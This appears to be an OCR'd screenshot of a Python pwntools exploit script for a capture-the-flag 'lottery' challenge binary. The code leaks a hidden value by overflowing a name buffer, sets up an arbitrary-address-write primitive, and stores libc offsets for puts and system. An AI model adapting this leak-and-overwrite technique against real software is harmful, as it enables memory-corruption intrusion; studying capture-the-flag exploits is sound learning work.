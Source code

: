 ```python
# addresses
stderr = e.sym['stderr']
start = 0x401170

# libc offset 
puts_offset = 0x87be0
system_offset = 0x58750

def set_name(name):
    p.sendafter(b"name : ", name)

# options
def draw(num):
    p.sendlineafter(b'=> ', b'1')
    p.sendlineafter(b'Number : ', str(num).encode())

    if b"Please" in p.recvline():
        return 0
    else:
        return 256

def rename(name):
    p.sendlineafter(b'=> ', b'2')
    p.sendafter(b'name : ', name)

def info():
    p.sendlineafter(b'=> ', b'3')
    p.recvuntil(b'Name : ')
    print("Name: ", p.recvline())
    p.recvuntil(b'held : ')
    print("Asset: ", p.recvline())
    
def flag():
    p.sendlineafter(b'=> ', b'4')
    print("FLAG: ", p.recvline())

def exit():
    p.sendlineafter(b'=> ', b'0')

# lottery leak
def get_lottery():
    p.sendlineafter(b"=> ", b'3')
    p.recvuntil(b'A'*0x30)
    byte = p.recvn(8).ljust(8, b'\x00')
    lottery = u64(byte)

    return lottery

# aaw
def aaw(address, data):
    p.sendlineafter(b'=> ', b'4100')
    sleep(0.1)
    p.sendline(str(address).encode())
    p.sendline(str(data).encode())

set_name(b'A'*0x30)

# 4096
asset = 0
while(asset < 4096):
    lottery = get_lottery()
    asset += draw(lottery)

```